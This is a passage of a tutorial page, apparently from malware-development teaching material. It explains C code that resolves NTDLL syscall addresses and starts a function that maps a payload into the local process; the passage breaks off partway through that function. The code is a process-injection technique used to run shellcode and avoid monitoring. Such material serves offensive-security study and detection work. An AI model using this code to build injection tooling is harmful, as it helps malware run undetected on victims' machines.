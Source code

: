 A `Syscall` structure is created and initialized using `InitializeSyscallStruct`, which holds the addresses of the syscalls used, as shown below.

```c
// a structure used to keep the syscalls used
typedef struct _Syscall {
	
	fnNtCreateSection       pNtCreateSection;
	fnNtMapViewOfSection    pNtMapViewOfSection;
	fnUnmapViewOfSection    pNtUnmapViewOfSection;
	fnNtClose               pNtClose;
	fnNtCreateThreadEx      pNtCreateThreadEx;

}Syscall, * PSyscall;



// function used to populate the input 'St' structure
BOOL InitializeSyscallStruct (OUT PSyscall St) {

	HMODULE hNtdll	= GetModuleHandle(L"NTDLL.DLL");
	if (!hNtdll) {
		printf("[!] GetModuleHandle Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	St->pNtCreateSection         = (fnNtCreateSection)GetProcAddress(hNtdll, "NtCreateSection");
	St->pNtMapViewOfSection      = (fnNtMapViewOfSection)GetProcAddress(hNtdll, "NtMapViewOfSection");
	St->pNtUnmapViewOfSection    = (fnUnmapViewOfSection)GetProcAddress(hNtdll, "NtUnmapViewOfSection");
	St->pNtClose                 = (fnNtClose)GetProcAddress(hNtdll, "NtClose");
	St->pNtCreateThreadEx        = (fnNtCreateThreadEx)GetProcAddress(hNtdll, "NtCreateThreadEx");

 	// check if GetProcAddress missed a syscall
	if (St->pNtCreateSection == NULL || St->pNtMapViewOfSection == NULL || St->pNtUnmapViewOfSection == NULL || St->pNtClose == NULL || St->pNtCreateThreadEx == NULL)
		return FALSE;
	else
		return TRUE;
}

```

The `LocalMappingInjectionViaSyscalls` and `RemoteMappingInjectionViaSyscalls` functions are responsible for injecting the payload (`pPayload`) in the local process and remote process (`hProcess`), respectively. Both functions are shown below.

#### LocalMappingInjectionViaSyscalls

```c
BOOL LocalMappingInjectionViaSyscalls(IN PVOID pPayload, IN SIZE_T sPayloadSize) {

	HANDLE				hSection		= NULL;
	HANDLE				hThread			= NULL;
	PVOID				pAddress		= NULL;
	NTSTATUS			STATUS			= NULL;
	SIZE_T				sViewSize		= NULL;
	LARGE_INTEGER		MaximumSize		= {
			.HighPart = 0, 
			.LowPart = sPayloadSize 
	};
	Syscall				St			    = { 0 };

	// Initializing the 'St' structure to fetch the syscall's addresses
	if (!InitializeSyscallStruct(&St)) {
```